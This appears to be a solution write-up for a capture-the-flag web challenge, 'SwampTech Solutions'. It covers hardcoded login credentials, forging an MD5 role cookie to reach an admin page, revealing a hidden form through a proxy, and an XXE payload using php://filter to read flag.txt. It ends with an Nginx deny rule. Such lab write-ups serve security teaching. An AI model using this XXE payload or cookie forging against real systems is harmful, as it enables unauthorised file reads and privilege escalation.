



# SwampTech Solutions

SwampTech Solutions is a multi-step web challenge that ends in an XXE vulnerability. Players will need to uncover hardcoded credentials in the login page, manipulate a hashed cookie value to escalate access, discover a hidden XML-based form, and ultimately exploit an XML External Entity vulnerability to retrieve the flag.

---

# Full Solution Writeup

### Step 1: Login Page

Navigate to ```/login.php```

Use the hardcoded credentials:

```
guest:iambutalowlyguest
```

You will be redirected to ```/dashboard.php```

---

### Step 2: Cookie Manipulation

Inspect the cookie value. It is an MD5 hash of the username/role 'guest'.

- `guest` → `084e0343a0486ff05530df6c705c8bb4`
- `admin` → `21232f297a57a5a743894a0e4a801fc3`

Update your cookie to the md5 hash of 'admin':

```
21232f297a57a5a743894a0e4a801fc3
```

Now you can access the admin page at ```/adminpage.php```

---

### Step 3: Finding the Hidden XML Form

- Open `/adminpage.php` and intercept the request using Burp Suite (or a similar web proxy).
- Right-click the request and choose "Do Intercept > Response to this Request" to intercept and edit the response
- In the intercepted response, scroll to locate the hidden, obfuscated form.

To reveal it:

- Remove the `hidden` attribute from the `<form>` element.
- Forward the request.

The full form inputs will now be visible in the browser.



---

### Step 4: Submitting the Form

1. Fill out the form and intercept the outgoing request.
2. Observe that the form sends what appears to be XML data, which is URL-encoded.
3. The server reflects the `<name>` parameter back in the response, suggesting that out of band exfiltration is unnecessary.

This behavior points to a possible XXE vulnerability.

---

### Step 5: XXE Exploit

Replace the decoded XML data with the following XXE payload:

```xml
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.txt">
]>
<root>
    <name>&xxe;</name>
    <email>emailhere</email>
</root>
```

*Note: The `php://filter/convert.base64-encode` wrapper is used because the flag may contain characters that would otherwise break the XML syntax.*



---

### Step 6: Retrieving the Flag

- Send the payload through the form.
- The server will respond with the contents of `flag.txt`, Base64-encoded.
- Decode the Base64 string to reveal the flag.



---

## Notes

- Make sure to properly URL-encode the XML payload as needed.
- If something doesn’t render or process correctly, verify the structure of your request and try again.

---

*The fix for /flag.txt being accessible without authentication (if cookies are removed) is not present in this version. This issue is caused because the application files rely on .htaccess rules for protection, which are effective under Apache but not applicable in the Docker environment, as it runs on Nginx. To apply similar protection under Nginx, you can edit the /etc/nginx/sites-available/default file after the Docker container starts, and add the following location block:*
```
location = /flag.txt {
    deny all;
}
```
